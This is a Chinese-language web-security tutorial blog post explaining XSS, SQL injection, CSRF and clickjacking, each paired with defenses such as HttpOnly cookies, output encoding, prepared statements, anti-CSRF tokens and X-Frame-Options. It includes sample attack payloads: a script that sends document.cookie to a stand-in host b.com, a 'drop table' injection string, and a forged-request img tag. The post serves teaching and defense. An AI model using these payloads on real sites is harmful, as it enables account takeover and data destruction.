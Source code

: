 ```yaml
---
layout: post
title: "Web安全技术(4)-常见的攻击和防御"
date: 2015-04-25 15:17
categories: ["Web", "安全"]
---
```


对于一个Web应用来说，可能会面临很多不同的攻击。下面的内容将介绍一些常见的攻击方法，以及面对这些攻击的防御手段。

一、跨站脚本攻击（XSS）
-----------------------

跨站脚本攻击的英文全称是Cross Site Script，为了和样式表区分，缩写为XSS。发生的原因是网站将用户输入的内容输出到页面上，在这个过程中可能有恶意代码被浏览器执行。

跨站脚本攻击可以分为两种：

__1). 反射型XSS__

它是通过诱使用户打开一个恶意链接，服务端将链接中参数的恶意代码渲染到页面中，再传递给用户由浏览器执行，从而达到攻击的目的。如下面的链接：

    http://a.com/a.jsp?name=xss<script>alert(1)</script>

a.jsp将页面渲染成下面的html：

    Hello xss<script>alert(1)</script>

这时浏览器将会弹出提示框。

__2). 持久型XSS__

持久型XSS将恶意代码提交给服务器，并且存储在服务器端，当用户访问相关内容时再渲染到页面中，以达到攻击的目的，它的危害更大。

比如，攻击者写了一篇带恶意JS代码的博客，文章发表后，所有访问该博客文章的用户都会执行这段恶意JS。

### Cookie劫持 ###

Cookie中一般保存了当前用户的登录凭证，如果可以得到，往往意味着可直接进入用户帐户，而Cookie劫持也是最常见的XSS攻击。以上面提过的反射型XSS的例子来说，可以像下面这样操作：

首先诱使用户打开下面的链接：

    http://a.com/a.jsp?name=xss<script src=http://b.com/b.js></script>

用户打开链接后，会加载b.js，并执行b.js中的代码。b.js中存储了以下JS代码：

    var img = document.createElement("img");
    img.src = "http://b.com/log?" + escape(document.cookie);
    document.body.appendChild(img);

上面的代码会向b.com请求一张图片，但实际上是将当前页面的cookie发到了b.com的服务器上。这样就完成了窃取cookie的过程。

__防御Cookie劫持的一个简单的方法是在Set-Cookie时加上HttpOnly标识，浏览器禁止JavaScript访问带HttpOnly属性的Cookie。__

### XSS的防御 ###

__1). 输入检查__

对输入数据做检查，比如用户名只允许是字母和数字，邮箱必须是指定格式。一定要在后台做检查，否则数据可能绕过前端检查直接发给服务器。一般前后端都做检查，这样前端可以挡掉大部分无效数据。

对特殊字符做编码或过滤，但因为不知道输出时的语境，所以可能会做不适当的过滤，最好是在输出时具体情况具体处理。

__2). 输出检查__

对渲染到HTML中内容执行HtmlEncode，对渲染到JavaScript中的内容执行JavascriptEncode。

另外还可以使用一些做XSS检查的开源项目。

二、SQL注入
-----------------------

SQL注入常常会听到，它与XSS类似，是由于用户提交的数据被当成命令来执行而造成的。下面是一个SQL注入的例子：

    String sql = "select * from user where username = '" + username + "'";

像上面的SQL语句，如果用户提交的username参数是leo，则数据库执行的SQL为：

    select * from user where username = 'leo'

但如果用户提交的username参数是leo'; drop table user--，那执行的SQL为：

    select * from user where username = 'leo'; drop table user--'

在查询数据后，又执行了一个删除表的操作，这样的后果非常严重。

### SQL注入的防御 ###

防止SQL注入最好的方法是使用预编译语句，如下面所示：

    String sql = "select * from user where username = ?";
    PreparedStatement pstmt = conn.prepareStatement(sql);
    pstmt.setString(1, username);
    ResultSet results = pstmt.executeQuery();

不同语言的预编译方法不同，但基本都可以处理。

如果遇到无法使用预编译方法时，只能像防止XSS那样对参数进行检查和编码。

三、跨站请求伪造（CSRF）
-----------------------

跨站请求伪造的英文全称是Cross Site Request Forgery，是由于操作所需的所有参数都能被攻击者得到，进而构造出一个伪造的请求，在用户不知情的情况下被执行。看下面一个例子：

如果a.com网站需要用户登录后可以删除博客，删除博客的请求地址如下：

    GET http://a.com/blog/delete?id=1

当用户登录a.com后，又打开了http://b.com/b.html，其中有下面的内容：

    <img src="http://a.com/blog/delete?id=1"/>

这时会以用户在a.com的身份发送http://a.com/blog/delete?id=1，删除那篇博客。

### CSRF的防御 ###

1. 验证码

CSRF是在用户不知情的情况下构造的网络情况，验证码则强制用户与应用交互，所以验证码可以很好得防止CSRF。但不能什么请求都加验证码。

2. referer检查

检查请求header中的referer也能帮助防止CSRF攻击，但服务器不是总能拿到referer，浏览器可能出于安全或隐私而不发送referer，所以也不常用。倒是图片防盗链中用得很多。

3. Anti CSRF Token

更多的是生成一个随机的token，在用户提交数据的同时提交这个token，服务器端比对后如果不正确，则拒绝执行操作。

四、点击劫持（ClickJacking）
-----------------------

点击劫持是从视觉上欺骗用户。攻击者使用一个透明的iframe覆盖在一个网页上，诱使用户在该网页上操作，而实际点击却是点在透明的iframe页面。

点击劫持延伸出了很多攻击方式，有图片覆盖攻击、拖拽劫持等。

### 点击劫持的防御 ###

针对iframe的攻击，可使用一个HTTP头：X-Frame-Options，它有三种可选值：

- DENY： 禁止任何页面的frame加载；
- SAMEORIGIN：只有同源页面的frame可加载；
- ALLOW-FROM：可定义允许frame加载的页面地址。

针对图片覆盖攻击，则注意使用预防XSS的方法，防止HTML和JS注入。
